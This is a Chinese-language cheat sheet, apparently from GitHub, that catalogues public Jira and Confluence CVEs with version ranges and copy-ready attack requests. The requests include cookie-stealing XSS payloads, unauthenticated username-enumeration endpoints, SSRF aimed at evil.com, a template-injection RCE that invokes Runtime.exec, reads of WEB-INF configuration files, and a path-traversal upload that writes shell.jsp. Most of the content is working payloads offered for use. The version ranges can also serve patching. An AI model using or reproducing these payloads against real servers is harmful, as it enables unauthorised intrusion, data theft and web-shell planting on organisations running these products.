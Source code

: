 说明：实际的漏洞不止这些，有的是需要管理员权限的，有的是没有详情的Nday。这里整理的是已公开、且未授权或者普通账号权限可利用的漏洞。这次仔细参考NVD整理了各漏洞的影响范围，方便查询。如果有漏掉的有一定影响的漏洞详情欢迎指出。部分重要漏洞的细节可参考：[Atlassian产品漏洞整理](https://www.anquanke.com/post/id/197665)
## Jira

### XSS

#### [CVE-2018-20824]
version < 7.13.1 
- /plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.cookie)

#### [CVE-2019-3400]
version < 7.13.2, 8.0.0 <= version < 8.0.2
- /plugins/servlet/gadgets/ifr?url=<scheme>://<jira.com:port>/rest/gadgets/1.0/g/com.atlassian.jira.gadgets:labels-gadget/gadgets/labels-gadget.xml&up_projectid=../../../../../rest/gadget/1.0/issueTable/jql%3fjql=issuekey%253e1%2520OR%2520issuekey%2521=%2522%253cimg%2520src=x%2520onerror=alert(document.cookie)%253e%2522%26&up_isConfigured=true

#### [CVE-2019-3402]
version < 7.13.3, 8.0.0 <= version < 8.1.1
- /secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu<script>alert(document.cookie)<%2Fscript>t1nmk&Search=Search

#### [CVE-2019-8444] [普通账号]评论处存储型XSS
version < 7.13.6, 8.0.0 <= version < 8.3.2
```
- !https://cdn.cnn.com/cnn/.e1mo/img/4.0/logos/logo_cnn_badge_2up.png|width=http://onmouseover=alert(77&#x29;;//!

- !image.png|width=\" onmouseover=alert(77);//!
```

### 信息泄露
#### [CVE-2019-3403] [未授权]用户名枚举
version < 7.13.3, 8.0.0 <= version < 8.0.4, 8.1.0 <= version < 8.1.1
- /rest/api/2/user/picker?query=admin
- /rest/api/latest/user/picker?query=admin

#### [CVE-2019-8449] [未授权]用户名枚举
version < 8.4.0
- /rest/api/2/groupuserpicker?query=admin
- /rest/api/latest/groupuserpicker?query=admin

#### [CVE-2019-8442] [未授权] 信息泄露
version < 7.13.4,  8.0.0 <= version < 8.0.4, 8.1.0 <= version < 8.1.1

反正不能访问WEB-INF目录。

- /s/test_by_cqq/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
- /s/test_by_cqq/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties

#### [CVE-2020-14179] [未授权] 信息泄露
version < 8.5.8, 8.6.0 <= version < 8.11.1
- /secure/QueryComponent!Default.jspa


#### CVE-2020-14181 [未授权]用户名枚举
version < 7.13.6, 8.0.0 <= version < 8.5.7, 8.6.0 <= version < 8.12.0.
- /secure/ViewUserHover.jspa?username=admin

### SSRF
#### [CVE-2017-9506] [中][未授权]
version < 7.3.5
- /plugins/servlet/oauth/users/icon-uri?consumerUri=http://baidu.com

#### [CVE-2019-8451] [中][未授权]
version < 8.4.0
- /plugins/servlet/gadgets/makeRequest?url=<scheme>://<jira.com:port>@<evil.com:port> -H "X-Atlassian-Token: no-check"


### RCE
#### [CVE-2019-11581] [高][未授权] [非默认配置，需开启联系管理员功能]
4.4.0 <= version < 7.6.14, 
7.7.0 <= version < 7.13.5,
8.0.0 <= version < 8.0.3,
8.1.0 <= verison < 8.1.2,
8.2.0 <= verison < 8.2.3

- /secure/ContactAdministrators.jspa "$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('calc').waitFor()"


## Confluence

### 信息泄露
#### [CVE-2015-8399] [中][普通账号]敏感信息泄露
version < 5.8.17
- /spaces/viewdefaultdecorator.action?decoratorName=<FILE>
- /admin/viewdefaultdecorator.action?decoratorName=<FILE>

<FILE>:
```
- /WEB-INF/decorators.xml
- /WEB-INF/glue-config.xml
- /WEB-INF/server-config.wsdd
- /WEB-INF/sitemesh.xml
- /WEB-INF/urlrewrite.xml
- /WEB-INF/web.xml
- /databaseSubsystemContext.xml
- /securityContext.xml
- /services/statusServiceContext.xml
- com/atlassian/confluence/security/SpacePermission.hbm.xml
- com/atlassian/confluence/user/OSUUser.hbm.xml
- com/atlassian/confluence/security/ContentPermissionSet.hbm.xml
- com/atlassian/confluence/user/ConfluenceUser.hbm.xml
```


#### [CVE-2017-7415] [中][未授权]读任意blog或页面
6.0.0 <= version < 6.0.7
- /rest/tinymce/1/content/<pageId>/draft/diff


#### [CVE-2019-3394] [高][普通账号]敏感信息泄露
6.1.0 <= version < 6.6.16,
6.7.0 <= version < 6.13.7,
6.14.0 <= version < 6.15.8

- POST /rest/api/content/<pageId>
- GET /exportword?pageId=<pageId>

### SSRF
#### [CVE-2017-9506] [中][未授权]
verison < 6.1.3
- /plugins/servlet/oauth/users/icon-uri?consumerUri=http://baidu.com

#### [CVE-2019-3395] [中][未授权]
verison < 6.6.7, 6.7.0 <= version < 6.8.5, 6.9.0 <= version < 6.9.3
- /webdav -H "Host: evil.com" -H "key: value"

### RCE
#### [CVE-2019-3396] [高][未授权]模板注入
version < 6.6.12, 
6.7.0 <= version < 6.12.3, 
6.13.0 <= version < 6.13.3,
6.14.0 <= version < 6.14.2,

某些版本可RCE（需支持外联请求）可支持file协议读任意文件。某些版本只能读`/web.xml`这个文件所在目录的文件。

- /rest/tinymce/1/macro/preview {"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}


### 其他
#### [CVE-2019-3398] [高][普通账号]路径穿越（任意文件上传）
version < 6.6.13,
6.7.0 <= version < 6.12.4, 
6.13.0 <= version < 6.13.4,
6.14.0 <= version < 6.14.3,
6.15.0 <= version < 6.15.2

实际想利用成功需要知道Confluence安装目录的绝对路径，或者安装目录与启动目录的相对路径。
- POST /plugins/drag-and-drop/upload.action?pageId=<pageId>&filename=../../../../../../opt/atlassian/confluence/confluence/shell.jsp
- GET /pages/downloadallattachments.action?pageId=<pageId>



## 参考
- https://www.anquanke.com/post/id/197665
- https://github.com/shadowsock5/Poc/blob/master/Confluence/CVE-2019-3394.py
- https://github.com/superevr/cve-2019-3398/blob/master/poc.py
- https://twitter.com/harshbothra_/status/1346109605756116995
- https://gist.github.com/0x240x23elu/891371d46a1e270c7bdded0469d8e09c
- https://www.exploit-db.com/exploits/39170
- https://www.cvedetails.com/vendor/3578/Atlassian.html
